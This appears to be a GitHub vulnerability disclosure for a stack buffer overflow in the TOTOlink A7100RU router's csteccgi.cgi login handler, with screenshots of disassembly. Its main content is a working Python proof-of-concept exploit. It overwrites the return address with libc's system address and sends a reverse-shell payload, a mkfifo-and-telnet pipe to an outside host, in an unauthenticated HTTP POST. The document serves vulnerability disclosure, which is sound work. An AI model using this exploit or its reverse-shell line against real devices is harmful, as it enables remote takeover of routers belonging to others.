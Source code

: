 # TOTOlink A7100RU(V7.4cu.2313_B20191024) router buffer overflow vulnerability

## Information

Vendor：http://totolink.net/

Firmware：http://totolink.net/home/menu/detail/menu_listtpl/download/id/185/ids/36.html

## Affected Version

V7.4cu.2313_B20191024

![image](https://github.com/unpWn4bL3/iot-security/assets/13286957/3dfda397-6bd5-4f38-9a10-31bc51c69199)

## Detail

![屏幕截图 2023-12-18 130907](https://github.com/unpWn4bL3/iot-security/assets/13286957/a7ca51ad-b627-4e23-8561-0e491e4771a9)

main() of csteccgi.cgi reads $v0_4 from http POST body

![image](https://github.com/unpWn4bL3/iot-security/assets/13286957/ee45a624-3f2b-4467-8e42-53f38db5e325)

When query string of http request contains "action=login" and "flag=1", $a0_50(pointer to stack variable var_1670) is constructed using sprinf. If $v0_4 has excessive length, var_1670 will have a bufer overflow vulnerability

## POC
```python
from pwn import *
context(os="linux", arch="mips", log_level="debug", bits=32, endian="little")
libc_base = 0x77ecc000

payload = flat({
    5684: libc_base + 0x0004FEB0, # system
    5700: libc_base + 0x00016BC8, # ra
},filler=b'a')
payload += cyclic(16)
payload += b"""TF=$(mktemp -u);mkfifo $TF && telnet 192.168.3.1 8080 0<$TF | sh 1>$TF\n"""

packet = (
b"""POST /cgi-bin/cstecgi.cgi?action=login&flag=1 HTTP/1.1\r\n"""
+b"""Host: 192.168.3.2\r\n"""
+b"""User-Agent: curl/7.81.0\r\n"""
+b"""Accept: */*\r\n"""
+b"""Content-Length: """ +str(len(payload)).encode()+ b"""\r\n"""
+b"""Content-Type: application/x-www-form-urlencoded\r\n"""
+b"""\r\n"""
+payload
)
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.3.2", 80))
print(packet)
s.send(packet)
```
![image](https://github.com/unpWn4bL3/iot-security/assets/13286957/ec2e4125-dc86-49bd-9e82-bfc97c7c8db8)

Here we use firmware's built-in busybox-telnet to reverse shell. Further more, an attacker can construct payload to execute arbitry command or shellcode.
